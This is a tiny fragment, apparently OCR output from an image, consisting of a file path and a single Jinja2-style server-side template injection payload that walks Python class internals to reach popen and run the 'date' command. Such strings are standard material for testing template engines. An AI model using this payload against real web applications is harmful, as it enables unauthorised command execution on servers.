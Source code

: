 |{{ "".__class__.__mro__[-1].__subclasses__()[133].__init__.__globals__["popen"]("date").read() }}|
